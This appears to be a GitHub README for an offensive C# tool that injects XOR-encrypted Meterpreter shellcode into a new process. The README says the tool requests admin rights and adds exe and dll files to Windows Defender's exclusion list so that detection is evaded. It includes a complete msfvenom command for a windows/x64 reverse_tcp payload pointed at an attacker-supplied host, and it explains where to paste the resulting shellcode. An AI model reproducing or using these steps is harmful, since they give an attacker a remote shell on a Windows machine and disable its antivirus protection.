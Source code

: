 # get-meterpreter-on-windows 11

for information visit https://youtu.be/HrBr6uKGCxs and watch my video

this is a csharp program to inject xor encrypted shellcode into a new process
this is a modified code(the original code is from https://github.com/chr0n1k/AH2021Workshop/blob/master/Labs/Lab4:%20Simple%20process%20injection/program1.cs) that asks for admin rights at program startup and then adds exe and dll files to the exclusion list of windows defender to get a fully functional meterpreter session without have to worry about uploading stages won't work.

to generate shellcode use:

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IPADRESS> lport=<PORTNUMBER> -f csharp --encrytp xor --encryptkey ARICAHACKON



replace bytesize and shellcode in line 162:

byte[] xorshellcode = new byte[<YOUR BYTESIZE HERE>] {<YOUR SHELLCODE HERE>};
